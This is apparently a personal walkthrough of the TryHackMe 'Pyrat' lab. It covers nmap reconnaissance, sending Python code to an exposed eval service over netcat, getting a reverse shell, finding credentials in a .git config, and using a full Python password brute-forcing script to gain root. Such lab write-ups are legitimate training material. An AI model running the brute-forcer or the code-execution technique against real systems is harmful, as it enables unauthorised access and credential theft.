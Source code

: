 ![[Pasted image 20250810193916.png]]
## Description:
Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. The script unveils a password, ultimately granting access to the root.

### Target IP: 10.201.88.90

### Reconnaissance
Nmap Scan Result:
```
┌──(nightcrypt㉿kali)-[~/Documents/Tryhackme/THM_Machines/Pyrat]
└─$ nmap -sC -sV 10.201.88.90       
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 16:45 PST
Nmap scan report for 10.201.88.90 (10.201.88.90)
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:2f:91:03:ba:80:49:38:c3:49:78:ed:db:c2:8a:5a (RSA)
|   256 d2:c8:ce:22:d7:74:bb:52:42:6c:ce:95:a3:d3:60:90 (ECDSA)
|_  256 e3:c9:39:b2:6c:05:1c:d4:d1:70:f0:58:c2:6a:73:39 (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.95%I=7%D=8/10%Time=68985C2E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20defin
SF:ed\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\x20
SF:null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<strin
SF:g>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cannot\
SF:x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\x20
SF:is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x20n
SF:ot\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20string\x
SF:20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"sour
SF:ce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Help,1
SF:B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invalid\x
SF:20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\x20
SF:syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20cod
SF:e\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"so
SF:urce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Java
SF:RMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\
SF:n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20
SF:bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.58 seconds
```

I typed the IP and port number on the site to check if we could find anything but it returns 'Try a more basic connection' as shown in the image below:
![[2025-08-10_19-41.png]]



### Initial Foothold:

With this, I tried connecting via Netcat:
```
nc 10.201.88.90 8000
```

I typed '_GET / HTTP/1.1_' but it returns: 
```
name 'GET' is not defined
```
This is not a normal HTTP response.

The server is likely running a python code so I tried typing this:
```
print(1+1)
2
```

As seen above, it returned '2' as a response. Therefore, our theory was validated that it is running a python code. Using this information, we could run a payload to create a connection.

I used Payload playground to create a python reverse shell using this link: https://payloadplayground.com/generators/reverse-shell. I only copied the command inside the single quote.
![[2025-08-10_19-55.png]]
I setup the netcat listener on port 4444 first then pasted the generated payload in the nc connection that we established earlier:
![[2025-08-10_19-59.png]]

Press enter and we would see the connection in our nc listener:
![[2025-08-10_20-02.png]]

After a lot of manual enumeration, I stumbled upon the /opt/dev/.git directory where you'll see a config file:
![[2025-08-10_20-05.png]]

Check the file and you'll get the Credentials to login via ssh.
![[2025-08-10_20-08.png]]

### User flag
After logging in, you'll see the user flag.
![[userflag.png]]


### Privilege Escalation
I checked the processes to look for possible privilege escalation vectors and there's a pyrat.py file that is running in the background using the root privileges.
![[2025-08-10_20-15.png]]

Since we saw this endpoint existed in the old version, we can fuzz for other endpoints. I initially typed 'admin' in our nc connection to check for a low hanging fruit and I just got lucky to get a valid endpoint.
![[2025-08-10_20-28.png]]


After this, I was prompt to enter a password so I asked the help of an LLM to write this **python script** to brute-force its password:

```python
import socket

# Configuration
target_ip = "10.201.88.90"  # Target IP
target_port = 8000         # Target port
password_wordlist = "/usr/share/seclists/Passwords/500-worst-passwords.txt"  # Path to your password wordlist file

def connect_and_send_password(password):
    try:
        # Create a socket connection
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.connect((target_ip, target_port))

        # Send 'admin' username first
        client_socket.sendall(b'admin\n')

        # Receive server's response
        response = client_socket.recv(1024).decode()

        if "Password:" in response:  # Check if server is asking for a password
            client_socket.sendall(password.encode() + b"\n")  # Send password

            # Receive server's response to the password
            response = client_socket.recv(1024).decode()

            # Show only if there is a valid hit or specific response
            if "success" in response.lower() or "welcome" in response.lower():  # Adjust based on actual success messages
                print(f"[+] Valid password found: {password}")
                return True
            
            # Optionally show any other significant responses
            if "invalid" in response.lower() or "incorrect" in response.lower():  # Adjust based on actual error messages
                print(f"[-] Response for password '{password}': {response}")

        return False

    except Exception as e:
        return False

    finally:
        client_socket.close()  # Always ensure the socket is closed

def fuzz_passwords():
    # Open the password wordlist file
    with open(password_wordlist, "r", encoding="utf-8", errors="ignore") as file:
        passwords = file.readlines()

    # Iterate through each password in the wordlist
    for password in passwords:
        password = password.strip()  # Remove any newline characters

        if connect_and_send_password(password):
            break  # Exit after finding the first valid password

if __name__ == "__main__":
    fuzz_passwords()
```

![[admin_password.png]]

We got a valid password! Now, we just got to enter it in our nc connection to gain a shell.

### Root flag

After a successful login, you just got to read the root flag.

![[rootflag.png]]


Happy Hacking!!!